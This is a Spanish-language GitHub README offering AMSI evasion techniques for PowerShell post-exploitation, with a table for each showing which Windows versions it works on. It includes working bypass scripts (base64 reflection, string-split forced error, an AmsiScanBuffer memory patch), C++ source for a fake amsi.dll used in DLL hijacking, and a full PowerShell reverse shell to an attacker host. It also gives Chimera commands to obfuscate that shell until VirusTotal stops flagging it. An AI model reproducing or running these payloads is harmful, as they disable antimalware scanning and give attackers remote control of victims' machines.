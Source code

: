 # Evasión de AMSI #

Este repositorio contiene algunos métodos de evasión de AMSI que he encontrado, fueron probados en los siguiewntes sistemas operativos:

- Windows 10
- Windows 11
- Windows Server 2016
- Windows Server 2019
- Windows Server 2022

Todos en sus versión nás reciente para el momento (21H2) y probados en PowerShell 5.1 como en 7.2

Se dejaron de lado técnicas que ya han sido parchadas o que utilicen ejecutables o DLL modificadas debido a que, con el pasar del tiempo, las firmas de estos archivos son detectados por los antivirus; por esta razón se privilegiaron aquellas técnicas que puedan ser ejecutadas en memoria y con un usuario estándar lo cuales pueden ser útiles en un escenario de post explotación.

Estos scripts podrían ser detectados por AMSI en el futuro. Por lo que recomiendo usar herramientas de ofuscación como [Chimera](https://github.com/tokyoneon/Chimera) o [Invoke-Stelth](https://github.com/JoelGMSec/Invoke-Stealth).

1. [Metodo Reflection de Matt Graeber (base64)](#Método-Reflection-de-Matt-Graeber-(base64) "Goto Método-Reflection-de-Matt-Graeber-(base64)")
2. [Error Forzado](#Error-Forzado "Goto Error-Forzado")
3. [DLL Hijacking](#DLL-Hijacking "goto DLL-Hijacking")
4. [Memory Patching](#Memory-Patching "Goto Memory-Patching")
5. [Ofuscación con Chimera](#Ofuscación-con-Chimera "Goto Ofuscación-con-Chimera")

## Método Reflection de Matt Graeber (base64) ##

| **Interfaz** | **Win 10** | **Win 11** | **Win 2016** | **Win 2019** | **Win 2022** |
|--------------|:----------:|:----------:|:------------:|:------------:|:------------:|
| ![](https://img.shields.io/badge/PowerShell-5-blue) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) 
| ![](https://img.shields.io/badge/PowerShell-7-blueviolet) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red)

Fabian Mosh, utilizando un antiguo bypass de AMSI de Matt Graeber (Reflection method) pudo demostrar que si se utiliza la codificación Base64 en las cadenas (AmsiUtils & amsiInitFailed) que activan AMSI y se decodifican en tiempo de ejecución:

<details><summary>Ver Script</summary>
<p>
 
```PowerShell
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```
 </p>
</details>

## Error Forzado ##

| **Interfaz** | **Win 10** | **Win 11** | **Win 2016** | **Win 2019** | **Win 2022** |
|--------------|:----------:|:----------:|:------------:|:------------:|:------------:|
| ![](https://img.shields.io/badge/PowerShell-5-blue) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) 
| ![](https://img.shields.io/badge/PowerShell-7-blueviolet) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red)

Aunque originalmente esto fue revelado por Matt Graeber y posteriormente bloqueado por Microsoft. Si se evita utilizar directamente las cadenas con el uso de variables y sin necesidad de ofuscación se puede evadir el AMSI con el mismo método:

<details><summary>Ver Script</summary>
<p>
 
```PowerShell
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils' 
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)   
```
 </p>
</details>

## DLL Hijacking ##

| **Interfaz** | **Win 10** | **Win 11** | **Win 2016** | **Win 2019** | **Win 2022** |
|--------------|:----------:|:----------:|:------------:|:------------:|:------------:|
| ![](https://img.shields.io/badge/PowerShell-5-blue) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Falla-red) 
| ![](https://img.shields.io/badge/PowerShell-7-blueviolet) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red) | ![](https://img.shields.io/badge/-Falla-red)

Para hacerlo funcionar deben copiar la [amsi.dll](amsi.dll) que está en el repositorio (está compilada para x64). Si deseas compilar tu propia DLL abajo tienes el código fuente:

<details><summary>Código de la amsi.dll falsa</summary>
<p>
 
````C++
#include "pch.h"
#include "iostream"
 
BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        LPCWSTR appName = NULL;
        typedef struct HAMSICONTEXT {
            DWORD       Signature;            // "AMSI" or 0x49534D41
            PWCHAR      AppName;           // set by AmsiInitialize
            DWORD       Antimalware;       // set by AmsiInitialize
            DWORD       SessionCount;      // increased by AmsiOpenSession
        } HAMSICONTEXT;
        typedef enum AMSI_RESULT {
            AMSI_RESULT_CLEAN,
            AMSI_RESULT_NOT_DETECTED,
            AMSI_RESULT_BLOCKED_BY_ADMIN_START,
            AMSI_RESULT_BLOCKED_BY_ADMIN_END,
            AMSI_RESULT_DETECTED
        } AMSI_RESULT;
 
        typedef struct HAMSISESSION {
            DWORD test;
        } HAMSISESSION;
 
        typedef struct r {
            DWORD r;
        };
 
        void AmsiInitialize(LPCWSTR appName, HAMSICONTEXT * amsiContext);
        void AmsiOpenSession(HAMSICONTEXT amsiContext, HAMSISESSION * amsiSession);
        void AmsiCloseSession(HAMSICONTEXT amsiContext, HAMSISESSION amsiSession);
        void AmsiResultIsMalware(r);
        void AmsiScanBuffer(HAMSICONTEXT amsiContext, PVOID buffer, ULONG length, LPCWSTR contentName, HAMSISESSION amsiSession, AMSI_RESULT * result);
        void AmsiScanString(HAMSICONTEXT amsiContext, LPCWSTR string, LPCWSTR contentName, HAMSISESSION amsiSession, AMSI_RESULT * result);
        void AmsiUninitialize(HAMSICONTEXT amsiContext);
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
````
 </p>
</details>

Una vez copiado el archivo, ejecuta el siguiente código en PowerShell:

````PowerShell
Copy-Item -Path C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Destination $pwd
& "$pwd\powershell.exe"
````

## Memory Patching ##

| **Interfaz** | **Win 10** | **Win 11** | **Win 2016** | **Win 2019** | **Win 2022** |
|--------------|:----------:|:----------:|:------------:|:------------:|:------------:|
| ![](https://img.shields.io/badge/PowerShell-5-blue) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) 
| ![](https://img.shields.io/badge/PowerShell-7-blueviolet) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen)

<details><summary>Ver Script</summary>
<p>

```PowerShell
$Win32 = @"
 
using System;
using System.Runtime.InteropServices;
 
public class Win32 {
 
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
 
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
 
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
 
}
"@
 
Add-Type $Win32
 
$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]0)
$Patch = [Byte[]] (0xc3, 0x90, 0x90)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 3)  
```
</p>
</details>

## Ofuscación con Chimera ##

| **Interfaz** | **Win 10** | **Win 11** | **Win 2016** | **Win 2019** | **Win 2022** |
|--------------|:----------:|:----------:|:------------:|:------------:|:------------:|
| ![](https://img.shields.io/badge/PowerShell-5-blue) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) 
| ![](https://img.shields.io/badge/PowerShell-7-blueviolet) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen) | ![](https://img.shields.io/badge/-Funciona!-brightgreen)

Una vez instalado [Chimera](https://github.com/tokyoneon/Chimera) debemos adecuar el script para que se comunique con nuestra máquina atacante:

 ```bash
/opt/chimera$ sed -i 's/192.168.56.101/10.0.2.5/g' shells/*.ps1
 ```
 
Y posteriormente levantar nuestra Reverse Shell:
 
 ```bash
nc -nlvp 4444
 ```
 
<details><summary>Nuestra Reverse Shell en PowerShell sin ofuscar</summary>
<p>
 
```PowerShell
$client = New-Object System.Net.Sockets.TCPClient("10.0.2.5",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
</p>
</details>

Para ofuscarlo debemos ejectar el siguiente comando (sin -b) e ir probando el resultado en [VirusTotal](https://www.virustotal.com/gui/home/upload). En los detalles alertan las siguientes funciones: new-object y out-string.<br><br>Mirando la ayuda esto es lo que podemos hacer con Chimera:

-l: Nivel 1 a 5 (no recomiendo colocarlo en 5)<br>
-f: Archivo de entrada.<br>
-o: Archivo de salida.<br>
-v: Substituir nombres de variables.<br>
-t: Substuir tipos de datos.<br>
-j: Substituir nombres de funciones.<br>
-i: Insertar comentarios arbitrarios.<br>
-c: Replazar comentarios con datos arbitrarios.<br>
-h: Convertir direcciones IP addresses a hexadecimal.<br>
-s: Substitute various strings.<br>
-b: Marcado de palabras (importante).<br><br>Quedando finalmente:

```bash
/opt/chimera.sh -f /opt/shells/powershell_reverse_shell.ps1 -o /tmp/chimera.ps1 -l 4 -v -c -i -j -g -r -p -b new-object,out-string
 ```
